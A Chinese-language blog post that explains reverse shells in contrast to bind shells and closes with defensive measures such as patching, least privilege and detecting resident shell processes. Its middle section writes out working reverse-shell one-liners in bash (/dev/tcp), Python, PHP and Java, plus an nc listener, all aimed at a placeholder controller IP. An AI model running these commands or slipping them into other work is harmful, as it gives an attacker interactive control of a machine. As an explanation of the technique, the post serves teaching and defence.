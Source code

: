 ```yaml
---
layout: post
title: Reverse Shell
categories: Linux
description:
keywords:
---
```


反弹 Shell（Reverse Shell）是相对于 Bind Shell 而言的，在控制端不方便主动连接被控端时（例如被控端被防火墙保护），让被控端主动连接到控制端接受控制。

Bind Shell 是指被控端机器运行 Shell 代码，监听固定端口，等待外部控制端发起连接，从而实现远程控制。
Bind Shell 过程：

1. 被控端创建 TCP Socket，并绑定到本地端口；
2. 被控端监听 TCP 连接，接受控制端发起的 TCP 连接；
3. 被控端将 STDIN，STDOUT，STDERR 重定向到控制端的 Socket；
4. 控制端发出 Shell 命令，由被控端执行并回显结果到控制端。

借助系统调用，使用汇编程序编写的 Bind Shell 程序可以压缩到仅 112 字节。
一旦侵入成功程序被执行，尤其是以高级别账号权限执行，控制端即可发起 TCP 连接，在被控端机器执行任意 Shell 命令。
但是 Bind Shell 也有不足：

1. 程序什么时候被执行无法预期，控制端只能通过轮询确认；
2. 被控端可能在局域网环境下，控制端无法连接；
3. 被控端机器 IP 可能动态变化，控制端无法持续控制；
4. 被控端可能被防火墙保护，只能发起请求，不能接受请求；或者限定了端口，但此端口已被占用。

针对以上不足，Reverse Shell 被提出，和 Bind Shell 的技术原理类似，只是过程不同：

1. 控制端创建 TCP Socket，并绑定到本地端口；
2. 控制端监听 TCP 连接，接受被控端发起的 TCP 连接；
3. 控制端将 STDIN，STDOUT，STDERR 重定向到被控端的 Socket；
4. 控制端发出 Shell 命令，由被控端执行并回显结果到控制端。

如图所示：

![](https://blog.finxter.com/wp-content/uploads/2020/07/reverseshell-768x432.jpg)

控制端执行命令：`nc -lvp 80` 可以直接监听指定的 TCP 端口。

被控端执行命令：`bash -i >& /dev/tcp/{控制端ip}/{控制端port} 0>&1`。
作用是生成交互式（interactive）的 Shell 环境，将标准输出重定向到控制端，将标准输入0重定向到标准输出1。
效果是被控端所有输入输出都显示在控制端，无论控制端的命令成功失败，被控端都没有任何信息打印。
如果控制端没有在监听，则被控端会输出连接被拒绝的错误提示信息，进程退出。
如果控制端停止监听，则被控端的程序立刻退出（因为连接已被断开）。
注意在 Linux 系统中，任意的设备都是文件，因此这里 `/dev/tcp/{控制端ip}/{控制端port}` 是连接到控制端的 Socket 的特殊方式。

编程语言也可作为被控端程序，例如

- python: `python -c 'import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((ip, port)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(["/bin/sh", "-i"])'`
- php: `php -r '$sock=fsockopen($IP,$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`
- java: `r = Runtime.getRuntime(); p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/ip/port; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()`

一旦机器被控制，除了断绝访问外网能力，Reverse Shell 一般没有太好的防范方法。但仍然有以下手段加以预防和检测：

1. 确保服务器操作系统和应用程序保持在较新的状态，尤其是已知的安全补丁要保证到位，以减少能被利用的漏洞数量；
2. 应用程序尽量以较低权限运行，使得被代码注入后破坏面不至于过大；
3. 尽可能减少生产机器上的 Bash history 历史命令条数，避免在 Shell 命令中使用明文密码；
4. 确保服务器在防火墙以及其他网络防护软件之后，使得代码注入能被及时发现或阻止；
5. 服务器上运行必要的安全防护软件，最好能检测出异常的常驻 Shell 进程；
6. 定期进行安全攻防演练，发现系统潜在安全漏洞。

引用：

- https://cloud.tencent.com/developer/news/36975
- https://zhuanlan.zhihu.com/p/138393396
- https://resources.infosecinstitute.com/topic/icmp-reverse-shell/
- https://www.netsparker.com/blog/web-security/understanding-reverse-shells

[阅读原文][https://zqfan.github.io/2021/10/13/reverse-shell/] License: [(CC 4.0) BY-NC-SA](http://creativecommons.org/licenses/by-nc-sa/4.0/)
